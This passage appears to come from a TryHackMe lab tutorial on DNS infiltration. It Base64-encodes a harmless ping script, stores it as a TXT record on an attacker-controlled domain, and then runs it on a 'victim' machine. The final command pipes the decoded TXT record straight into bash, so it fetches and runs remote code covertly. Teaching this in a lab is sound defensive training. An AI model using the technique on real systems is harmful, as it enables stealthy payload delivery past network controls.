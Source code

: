 ```
#!/bin/bash 
ping -c 1 test.thm.com
```

The script executes the ping command in a victim machine and sends one ICMP packet to test.tunnel.com. Note that the script is an example, which could be replaced with any content. Now save the script to/tmp/script.sh using your favorite text editor and then encode it with Base64 as follows,

```
Encode the Bash Script as Base64 Representation

           
			
thm@victim2$ cat /tmp/script.sh | base64 
IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo=

	    
```

Now that we have the Base64 representation of our script, we add it as a TXT DNS record to the domain we control, which in this case, the tunnel.com. You can add it through the web interface we provide http://10.10.20.177/ or https://10-10-20-177.p.thmlabs.com/ without using a VPN. 

Once we added it, let's confirm that we successfully created the script's DNS record by asking the local DNS server to resolve the TXT record of the script.tunnel.com. If everything is set up correctly, we should receive the content we added in the previous step. 

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/38b87cfbbe254bef1e98f0dffa49451f.png)

```
Confirm the TXT record is Added Successfully

           
			
thm@victim2$ dig +short -t TXT script.tunnel.com

	    
```

We used the dig command to check the TXT record of our DNS record that we added in the previous step! As a result, we can get the content of our script in the TXT reply. Now we confirmed the TXT record, let's execute it as follows,

```
Execute the Bash Script!

           
			
thm@victim2$ dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash

	    
```

Note that we cleaned the output before executing the script using tr and deleting any double quotes ". Then, we decoded the Base64 text representation using base64 -d and finally passed the content to the bash command to execute. 
